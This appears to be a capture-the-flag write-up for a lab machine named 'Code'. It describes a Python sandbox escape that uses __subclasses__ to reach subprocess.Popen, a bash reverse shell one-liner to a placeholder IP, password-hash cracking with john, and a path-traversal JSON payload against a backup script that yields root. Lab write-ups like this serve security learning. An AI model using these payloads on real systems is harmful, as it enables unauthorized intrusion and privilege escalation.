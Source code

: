 # 👨‍💻Code

## 🧠Summary
 >The machine hosted a restricted Python code editor on port 5000, blacklisting keywords like import and os. After discovering that subprocess.Popen was accessible via __subclasses__()[317], I crafted a reverse shell payload to gain Docker access. Inside the container, I found a database.db containing hashed credentials. After cracking the hash, I SSH’ed into the main system. Privilege escalation was achieved via a vulnerable backy.sh script that processed a crafted JSON payload to dump /root via a .tar file, revealing the root flag.

## 🔎Step 1 (Nmap scan)
- Did a Nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v 10.10.11.62
  ```
  - The result of the nmap scan is ![](./screenshots/nmap_scan.png)
  - The ssh and port 5000 which host http is found open

## 🌐Step 2 (Web enumeration)
- Tried web enumeration and subdomain enumeration and negative

## 📌Step 3 (Loop hole)
- Finally came to the conclusion to use the code editor to exploit the system
- Tried to write a reverse shell program by importing the module socket and failed
- The word import is blacklisted tried to bypass it using "__import__()" still failed
- Tried to find what all modules are present and found popen which is a submodule of subprocess
- Exploited this using the code
  ```bash
  raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317]("bash -c 'bash -i >& /dev/tcp/your_IP/4444 0>&1'", shell=True, stdout=-1).communicate()))
  ```
- USed netcat to connect to my ip address and got a docker bin
- Manually searched the directories manually and found database.db
- Dumped the database.db and got the username and password hash

## 🔐Step 4 (password cracking)
- Stored the password hash inside a hash.txt file
- Used john and wordlist rockyou.txt to crack the hash and successfully cracked the password

## ⚓Step 5 (Foothold)
- ssh into the machine using the obtained hash and username
- found the user flag
- Used sudo -l and found out that a bash program called backy can be exploited
- Searched in the net for info and found out it uses a json input and give a .tar file output which dumps what we gave into the json file
- Found a json exploit in the net for this
  ```json
  {
  "destination": "/home/martin/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/....//root/"
    ]
  }
  ```
- It dumped a .tar file and extracted the tar file
- The extracted file contain a root directory in ehich the root flag was present
- Captured the root flag 🏴
